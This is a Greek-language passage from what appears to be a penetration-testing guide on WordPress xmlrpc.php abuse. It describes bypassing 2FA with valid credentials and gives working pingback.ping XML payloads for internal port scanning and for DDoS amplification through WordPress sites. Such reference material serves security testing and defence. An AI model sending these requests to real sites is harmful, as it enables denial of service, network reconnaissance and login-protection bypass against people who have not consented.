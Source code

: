 Αυτή η μέθοδος είναι για προγράμματα και όχι για ανθρώπους, και παλιά, επομένως δεν υποστηρίζει 2FA. Έτσι, αν έχετε έγκυρες διαπιστεύσεις αλλά η κύρια είσοδος προστατεύεται από 2FA, **μπορείτε να εκμεταλλευτείτε το xmlrpc.php για να συνδεθείτε με αυτές τις διαπιστεύσεις παρακάμπτοντας το 2FA**. Σημειώστε ότι δεν θα μπορείτε να εκτελέσετε όλες τις ενέργειες που μπορείτε να κάνετε μέσω της κονσόλας, αλλά ενδέχεται να μπορείτε ακόμα να φτάσετε σε RCE όπως το εξηγεί ο Ippsec στο [https://www.youtube.com/watch?v=p8mIdm93mfw\&t=1130s](https://www.youtube.com/watch?v=p8mIdm93mfw\&t=1130s)

**DDoS ή σάρωση θυρών**

Αν μπορείτε να βρείτε τη μέθοδο _**pingback.ping**_ μέσα στη λίστα μπορείτε να κάνετε το Wordpress να στείλει ένα αυθαίρετο αίτημα σε οποιονδήποτε κόμβο/θύρα.\
Αυτό μπορεί να χρησιμοποιηθεί για να ζητήσετε από **χιλιάδες** ιστότοπους **Wordpress** να **έχουν πρόσβαση** σε μια **τοποθεσία** (έτσι προκαλείται ένα **DDoS** σε αυτήν την τοποθεσία) ή μπορείτε να το χρησιμοποιήσετε για να κάνετε το **Wordpress** να **σαρώσει** κάποιο εσωτερικό **δίκτυο** (μπορείτε να υποδείξετε οποιαδήποτε θύρα).
```markup
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```
![](../../.gitbook/assets/1_JaUYIZF8ZjDGGB7ocsZC-g.png)

Αν λάβετε το **faultCode** με τιμή **μεγαλύτερη** από **0** (17), σημαίνει ότι η θύρα είναι ανοιχτή.

Ρίξτε μια ματιά στη χρήση της **`system.multicall`** στην προηγούμενη ενότητα για να μάθετε πώς να καταχραστείτε αυτήν τη μέθοδο για να προκαλέσετε DDoS.

**DDoS**
```markup
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param><value><string>http://target/</string></value></param>
<param><value><string>http://yoursite.com/and_some_valid_blog_post_url</string></value></param>
</params>
</methodCall>
```
![](<../../.gitbook/assets/image (110).png>)
